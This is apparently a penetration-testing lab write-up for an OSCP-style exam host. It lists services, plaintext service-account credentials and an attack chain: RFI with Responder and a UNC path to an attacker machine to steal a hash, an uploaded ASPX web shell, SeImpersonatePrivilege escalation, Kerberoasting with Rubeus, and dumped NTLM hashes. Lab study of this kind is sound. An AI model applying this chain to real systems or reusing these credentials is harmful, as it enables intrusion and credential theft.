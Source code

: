 ### ++ Approach 192.168.236.147 ++
#### Credentials
	* web_svc:Diamond1 (SSH and FTP)
	* sql_svc:Dolphin1

#### Services
	##### 21 FTP
		No null session

	##### 22 SSH
		-

	##### 135 RPC
		No null session

	##### 139,445 SMB
		No null session

	##### 8000 Http
		Microsoft IIS

	##### 8080 Http
		Webapp: http://ms01.oscp.exam:8080/

	##### 8443 Https
		Webapp: https://ms01.oscp.exam:8443/

	##### 47001 WinRM?
		-

### ++ Vulnerabilities ++

#### Vuln 1: RFI in Http webapp and hash stealing ++
	* In 8080/8443 webapp we can point to an url so setting up responder and using \\192.168.45.210\share\test url we can get a hash for web_svc user and get web_svc:Diamond1 credentials

### ++ System Interaction ++
#### Foothold as web_svc
	* Abusing vuln 1 we can connect to FTP or SSH with stole credentials but this user cannot do much

#### Lateral movement
	* With web_svc we can upload a aspx shell in C:\inetpub\wwwroot (through FTP or SSH) and access in port 8000 webapp to get RCE

#### Privilege Escalation 
	* Abuse SeImpersonatePrivilege
	
#### Post-exploitation 
	* Kerberoasting with Rubeus to extract sql_svc:Dolphin1 credentials
	* LaZagne:
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:3c4495bbd678fac8c9d218be4f2bbc7b:::  
        Mary.Williams:1002:aad3b435b51404eeaad3b435b51404ee:9a3121977ee93af56ebd0ef4f527a35e:::
        support:1003:aad3b435b51404eeaad3b435b51404ee:d9358122015c5b159574a88b3c0d2071:::

        ------------------- Pypykatz passwords -----------------
        Administrator:3c4495bbd678fac8c9d218be4f2bbc7b
        web_svc:53e938166782a44e241beaf02d081ff6
        MS01$:d0e9371d1f9acbdd290384512e15cda3